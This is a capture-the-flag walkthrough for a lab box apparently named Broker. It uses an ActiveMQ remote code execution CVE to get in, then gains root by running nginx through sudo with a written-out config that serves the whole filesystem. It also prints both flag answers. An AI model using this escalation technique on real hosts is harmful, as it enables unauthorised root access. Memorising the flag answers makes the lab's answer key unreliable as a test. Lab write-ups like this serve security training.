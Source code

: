 ## Guided:
**Q:** Which open TCP port is running the ActiveMQ service?<br>
**A:** 61616<br>
>`nmap -p- -sV -sC <IP>`

**Q:** What is the version of the ActiveMQ service running on the box?<br>
**A:** 5.15.15

**Q:** What is the 2023 CVE-ID for a remote code execution vulnerability in the ActiveMQ version running on Broker?<br>
**A:** CVE-2023-46604<br>
>A quick search in google for ActiveMQ will show known vulns,<br> msfconsole found it also.

**Q:** What user is the ActiveMQ service running as on Broker?<br>
**A:** activemq

**Q:** Submit the flag located in the activemq user's home directory.<br>
**A:** dcbe3e6670a649c8f04bec7180c04f90

**Q:** What is the full path of the binary that the activemq user can run as any other user with sudo?<br>
**A:** /usr/sbin/nginx<br>
> found via `sudo -l`

**Q:** Which nginx directive can be used to define allowed WebDAV methods?<br>
**A:** dav_methods<br>
>A quick google search will reveal

**Q:** Which HTTP method is used to write files via the WebDAV protocol?<br>
**A:** PUT

**Q:** Which flag is used to set a custom nginx configuration by specifying a file?<br>
**A:** -c <br>
>Note: Make sure to test it first with the flag "-t"

**Q:** Submit the flag located in the root user's home directory.<br>
**A:** 1c7373279ff8506fea6dc101fa2730e4
>from target shell >  `curl localhost:1233/root/root.txt`<br>
>Could of also make ssh key to login as root if needed.<br>


## Another note 
> since user can run as sudo nginx,<br>
> I had to update the config so it will run a server with root privs,<br>
> Ippsec walkthrough helped with edit the nginx.conf file,<br>
> The updated nginx.conf file:<br>
```bash
user root;
worker_processes auto;
pid /run/nginx2.pid;
include /etc/nginx/modules-enabled/*.conf;
events {
        worker_connections 768;
}
http {
	server {
		listen 1233;
		location / {
		root /;
		}

	}
}


